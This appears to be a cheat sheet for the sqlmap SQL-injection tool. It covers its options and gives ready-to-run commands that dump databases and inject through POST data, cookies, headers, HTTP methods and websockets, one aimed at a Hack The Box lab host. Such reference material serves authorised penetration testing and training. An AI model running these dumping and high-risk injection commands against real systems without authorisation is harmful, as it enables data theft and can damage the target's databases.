 ```yaml
---
icon: sword
---
```


# SQLmap

{% hint style="info" %}
### <mark style="color:purple;">Operators</mark>

<mark style="color:orange;">**`--batch`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Non interactive mode.</mark>

<mark style="color:orange;">**`--dbms`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Type of db being use (Ex.</mark> <mark style="color:orange;">**`mysql`**</mark><mark style="color:purple;">)</mark>

<mark style="color:orange;">**`--threads`**</mark> <mark style="color:purple;">**->**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">Goes from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`10`**</mark><mark style="color:purple;">.</mark>

***

### <mark style="color:purple;">Data</mark>

* <mark style="color:purple;">To retrieve everything:</mark>

```sh
--all --dump
```

<mark style="color:orange;">**`--dbs`**</mark> <mark style="color:purple;">-> List all the databases.</mark>

* <mark style="color:purple;">To look at the</mark> <mark style="color:orange;">**`tables`**</mark> <mark style="color:purple;">of a specific database:</mark>

```sh
-D database --tables
```

* &#x20;<mark style="color:purple;">Repeat the same process for</mark> <mark style="color:orange;">**`columns`**</mark><mark style="color:purple;">:</mark>

```sh
-D database -T table --columns
```

* <mark style="color:purple;">For</mark> <mark style="color:orange;">**`dumping`**</mark> <mark style="color:purple;">the data:</mark>

```sh
-D database -T table --dump
```

* <mark style="color:purple;">Or dump just one column:</mark>

```sh
-D database -T table -C column --dump
```

***

### <mark style="color:orange;">**`--level`**</mark>

<mark style="color:purple;">This option sets the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**level**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">of tests, with values ranging from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`5`**</mark> <mark style="color:purple;">(the default is level 1).</mark>

* <mark style="color:orange;">**`Level 1`**</mark><mark style="color:purple;">: Basic tests, only the most common and least intrusive SQL injection tests are performed.</mark>
* <mark style="color:orange;">**`Level 2-4`**</mark><mark style="color:purple;">: These levels increase the range and types of tests performed, with more advanced and varied testing.</mark>
* <mark style="color:orange;">**`Level 5`**</mark><mark style="color:purple;">: Perform the most comprehensive set of tests, including advanced and highly invasive tests. It increases the risk of being detected or causing issues on the target system.</mark>

***

### <mark style="color:orange;">`--risk`</mark>

<mark style="color:purple;">This option sets the</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**risk**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">level of tests, with values ranging from</mark> <mark style="color:orange;">**`1`**</mark> <mark style="color:purple;">to</mark> <mark style="color:orange;">**`3`**</mark> <mark style="color:purple;">(the default is 1).</mark>

* <mark style="color:orange;">**`Risk 1`**</mark><mark style="color:purple;">: Basic, low-risk tests that are less likely to cause harm or be detected.</mark>
* <mark style="color:orange;">**`Risk 2`**</mark><mark style="color:purple;">: Performs potentially more intrusive or advanced techniques.</mark>
* <mark style="color:orange;">**`Risk 3`**</mark><mark style="color:purple;">: Attempt</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**high-risk tests**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">that could be more aggressive, such as testing for blind injections, time-based techniques, or dropping and modifying tables.</mark>


{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`HTTP`</mark>

* <mark style="color:purple;">When working with HTTP request is good practice to directly save the request in to a file and use the</mark> <mark style="color:orange;">**`-r`**</mark> <mark style="color:purple;">option</mark>

{% code overflow="wrap" %}
```sh
sqlmap -r request.txt --level 5 --risk 3 --dump-all --batch
```
{% endcode %}

* <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`--force-ssl`**</mark> <mark style="color:purple;">when working with</mark> <mark style="color:orange;">**`HTTPS`**</mark><mark style="color:purple;">.</mark>

{% code title="Initiates the injection test" %}
```sh
sqlmap -r login.request --force-ssl --batch
```
{% endcode %}

***

* <mark style="color:purple;">When working with</mark> <mark style="color:orange;">**`POST`**</mark> <mark style="color:purple;">requests you need to use the option</mark> <mark style="color:orange;">**`--data`**</mark><mark style="color:purple;">**:**</mark>

```sh
sqlmap -u "http://example.com" --data "username=*&password=*"
```

***

* For cookies:

```sh
sqlmap  -u "http://example.com" --cookie "cookie=INJECTION"
```

***

### <mark style="color:purple;">Headers</mark>

```sh
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
```

```sh
sqlmap -u "http://example.com" --headers="referer:*"
```

***

### <mark style="color:purple;">Methods</mark>

{% code title="PUT" %}
```sh
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Websockets</mark>

* <mark style="color:purple;">Install the python</mark> <mark style="color:orange;">**`websocket-client`**</mark> <mark style="color:purple;">module.</mark>
* <mark style="color:purple;">Indicate the</mark> <mark style="color:orange;">**`port`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`data`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```sh
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```
{% endcode %}
{% endhint %}
